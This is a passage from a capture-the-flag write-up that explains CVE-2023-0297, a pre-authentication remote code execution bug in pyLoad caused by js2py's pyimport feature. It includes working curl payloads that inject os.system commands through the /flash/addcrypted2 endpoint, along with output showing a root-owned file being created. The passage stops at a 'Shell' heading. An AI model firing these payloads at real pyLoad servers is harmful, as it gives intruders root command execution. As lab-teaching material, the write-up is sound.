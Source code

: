 ![image-20230524133112062](../img/image-20230524133112062.png)

[This gist](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)
does a really nice job describing the bug. The `/flash/addcrypted2` endpoint
passes user input directly into a function named `eval_js`, which passes that
into `js2py.eval_js`, a function form the `js2py` library. This library is
designed to run JavaScript in this Python context.

`js2py` has a feature that’s on by default known as `pyimport`. It allows
importing Python libraries to run alongside the JavaScript it’s executing. So
if it’s not disabled, I can use `pyimport` to get Python code, and run that in
an unsafe way. The patch above disables `pyimport` for pyLoad.

#### POC

There’s a POC in the gist above using `curl`:

    
    
    curl -i -s -k -X $'POST' \
        --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
        $'http://<target>/flash/addcrypted2'
    

I’ll clean that up a bit and run it:

    
    
    oxdf@hacky$ curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
    

The `touch` command worked, as that file now exists, owned by root:

    
    
    sau@pc:~$ ls -l /tmp/0xdf
    -rw-r--r-- 1 root root 0 May 24 17:46 /tmp/0xdf
    

#### Shell
